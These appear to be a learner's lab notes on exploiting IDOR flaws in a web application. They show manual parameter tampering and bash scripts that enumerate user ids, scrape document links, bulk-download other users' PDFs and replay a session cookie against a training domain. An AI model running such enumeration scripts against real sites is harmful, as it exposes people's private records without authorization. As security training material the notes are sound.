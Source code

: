 Exploiting IDOR vulnerabilities is easy in some instances but can be very challenging in others. Once we identify a potential IDOR, we can start testing it with basic techniques to see whether it would expose any other data. As for advanced IDOR attacks, we need to better understand how the web application works, how it calculates its object references, and how its access control system works to be able to perform advanced attacks that may not be exploitable with basic techniques.

## Insecure Parameters
Web application sets the `uid` parameter 1. 

http://SERVER_IP:PORT/documents.php?uid=1
![[Pasted image 20250220163603.png]]

The documents attached to this `uid` have the following naming convention:

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

Invoice_UID_MONTH_YEAR.pdf
Report_UID_MONTH_YEAR.pdf

This is the most basic type of IDOR vulnerability and is called `static file IDOR`. However, to successfully fuzz other files, we would assume that they all start with `Invoice` or `Report`, which may reveal some files but not all


Change the `uid` in the URL to 2 to see if we can access another users documents.

http://SERVER_IP:PORT/documents.php?uid=2
![[Pasted image 20250220164002.png]]

Confirm but checking the attached documents names, which are now
```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

### Exploit Automation
The source code of the webpage and the documents goes as so
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

We can grep out `<li class='pure-tree_link'>` to just get the links and the further grep it out to just get the document paths.

```bash
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

Now a simple batch script that using a for loop to list out all of the documents and download them

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

#### ANOTHER EXAMPLE SCRIPT
```bash
#!/bin/bash
url="http://careers.inlanefreight.local"

for i in {1..100}; do
        curl -s "$url/profile?id=$i" -H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.Z8mSVQ.pqUXNXJRLS-dC2NLEXhzKTOVDo0' | grep "Jobs applied by *"
done

```